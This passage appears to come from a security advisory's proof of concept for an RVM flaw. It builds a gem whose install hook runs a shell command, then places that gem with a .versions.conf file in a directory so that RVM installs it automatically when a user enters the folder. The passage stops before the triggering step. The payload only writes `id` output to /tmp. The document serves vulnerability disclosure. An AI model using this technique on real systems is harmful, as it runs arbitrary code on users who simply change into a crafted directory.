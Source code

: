 ```text
rvm@e6aeaf6d79ec:~$ rvm install 2.3.0
  [... SNIP ...]
```

Prepare a malicious gem that will trigger execution of Ruby code upon
installation:

```text
rvm@e6aeaf6d79ec:~$ mkdir -p poc-gem/lib/

rvm@e6aeaf6d79ec:~$ cat > poc-gem/poc-gem.gemspec
Gem::Specification.new do |s|
  s.name        = '.poc-gem'
  s.version     = '1.33.7'
  s.summary     = 'poc'
  s.authors     = ['A. Hacker']
  s.files       = ['lib/rubygems_plugin.rb']
end
^D

rvm@e6aeaf6d79ec:~$ cat > poc-gem/lib/rubygems_plugin.rb
Gem.post_install do
  File.open('/tmp/poc_output', 'w') {|f| f.write("Arbitrary ruby code execution as #{`id`}")}
end
^D

rvm@e6aeaf6d79ec:~$ cd poc-gem/

rvm@e6aeaf6d79ec:~/poc-gem$ gem build poc-gem.gemspec
WARNING:  licenses is empty, but is recommended.  Use a license identifier from
http://spdx.org/licenses or 'Nonstandard' for a nonstandard license.
WARNING:  no email specified
WARNING:  no homepage specified
WARNING:  See http://guides.rubygems.org/specification-reference/ for help
  Successfully built RubyGem
  Name: .poc-gem
  Version: 1.33.7
  File: .poc-gem-1.33.7.gem
```

Prepare a directory that will trigger installation of the malicious gem upon
`cd`:

```text
rvm@e6aeaf6d79ec:~/poc-gem$ cd ..

rvm@e6aeaf6d79ec:~$ mkdir poc

rvm@e6aeaf6d79ec:~$ cp poc-gem/.poc-gem-1.33.7.gem poc/

rvm@e6aeaf6d79ec:~$ cat > poc/.versions.conf
ruby=ruby-2.3.0
ruby-gem-install=.poc-gem-1.33.7.gem
^D
```
